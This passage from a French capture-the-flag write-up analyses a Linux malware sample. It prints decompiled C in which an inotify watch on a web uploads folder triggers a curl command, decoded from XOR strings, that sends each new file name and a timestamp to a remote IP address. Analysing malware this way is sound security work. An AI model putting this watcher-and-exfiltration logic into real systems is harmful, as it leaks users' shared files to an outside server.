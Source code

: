 ```c
  if ( fd == 0xFFFFFFFF )
    exit(1);
  if ( inotify_add_watch(fd, "/var/www/html/app/uploads/", 0x100u) == 0xFFFFFFFF )
    exit(1);
  while ( 1 )
  {
    v2 = read(fd, buf, 0x8000uLL);
    if ( !v2 )
      break;
    if ( v2 == 0xFFFFFFFFFFFFFFFFLL )
      exit(1);
    for ( i = buf; i < &buf[v2]; i += *((unsigned int *)i + 3) + 0x10 )
    {
      if ( (*((_DWORD *)i + 1) & 0x100) != 0 )
      {
        if ( *((_DWORD *)i + 3) )
          sub_1765(i + 0x10);
      }
    }
  }
  exit(1);
}
```

Outre l'enchevêtrement de `if`, `while` et `for`, une ligne ressort distinctement : 

```c
inotify_add_watch(fd, "/var/www/html/app/uploads/", 0x100u) == 0xFFFFFFFF )
```

Faisons un tour dans le [man linux](https://man7.org/linux/man-pages/man2/inotify_add_watch.2.html) :
>  inotify_add_watch() adds a new watch, or modifies an existing
       watch, for the file whose location is specified in pathname; the
       caller must have read permission for this file.  The fd argument
       is a file descriptor referring to the inotify instance whose
       watch list is to be modified.  The events to be monitored for
       pathname are specified in the mask bit-mask argument.

Cette fonction permet d'accrocher un écouteur d'événement sur la création de fichiers ou dossiers dans une arborescence ! Le chemin spécifié ici correspond à l'emplacement des partages de l'application `et-bridge`, et vient donc faire sens avec l'énoncé du challenge : 

> (Retrouvez) - Le chemin Web, employé par la charge virale, pour transmettre des informations sur les identifiants de partage, à un serveur distant

Enin, une fonction en 0x1765 est appelée. Elle contient deux chaînes de caractères encodées par un XOR, qui produisent (une fois décodés) :

```c
unsigned __int64 __fastcall sub_1765(__int64 a1)
{
  // [...]
  format = "curl -G -d \'file=%s\' -d \'timestamp=%ld\' %s >>/dev/null 2>>/dev/null"
  v3 = "http://82.105.114.101/6e6f7468696e6768657265"
  v5 = 0;
  v2 = time(0LL);
  sub_13E9(format);
  sub_13E9((const char *)v3);
  snprintf(s, 0x200uLL, format, a1, v2, v3);
  system(s);
  return v16 - __readfsqword(0x28u);
}
```
